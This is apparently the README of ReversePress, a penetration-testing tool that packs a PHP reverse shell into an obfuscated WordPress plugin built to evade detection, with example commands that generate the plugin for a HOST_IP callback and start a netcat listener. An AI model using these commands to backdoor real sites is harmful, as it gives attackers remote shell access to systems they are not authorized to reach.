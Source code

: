 
# ReversePress
ReversePress is a Python-based tool designed for generating malicious WordPress plugins. It takes a PHP reverse shell and embeds it into a custom, obfuscated WordPress plugin. The plugin is then compressed into a zip archive ready for deployment. The tool also provides the ability to listen for incoming connections after the plugin has been deployed.

## Features
-   Embeds a PHP reverse shell into a custom WordPress plugin
-   Obfuscates the plugin code to avoid detection
-   Compresses the plugin into a zip archive ready for deployment
-   Provides the ability to listen for incoming connections after the plugin has been deployed

## Usage
    usage: reversePress.py [-h] [-i INPUT] [-l] [-o OUTPUT] [-p PORT] host

    positional arguments:
      host                          host to connect back to
    
    options:
      -h, --help                    show this help message and exit
      -i INPUT, --input INPUT       custom PHP reverse shell file to add to the plugin
      -l, --listener                start a netcat listener after generating the plugin
      -o OUTPUT, --output OUTPUT    name of the file to be generated
      -p PORT, --port PORT          port to listen on

## Getting Started
1.  Clone the repository: `git clone https://github.com/MachadoOtto/reversePress.git`
2.  Install Python 3 if not already installed.
3.  If using the Netcat listener, ensure that Netcat is installed and available in the system path.
4.  Run reversePress.py with the desired arguments.

## Examples
1.  Basic usage with default port:

        python reversePress.py HOST_IP
    
2.  Use a custom PHP reverse shell:

        python reversePress.py HOST_IP -i /path/to/reverse_shell.php

3.  Custom port and start a Netcat listener:

        python reversePress.py HOST_IP -p 1234 -l

## License

This project is licensed under the MIT License. See the [LICENSE](https://raw.githubusercontent.com/MachadoOtto/reversePress/main/LICENSE) file for details.

## Disclaimer
This script is provided as-is, without any warranties or guarantees. Use this tool responsibly and only on systems and applications you are authorized to test. If you use it for evil you should feel bad :(

- The Monada 🙈🙉🙊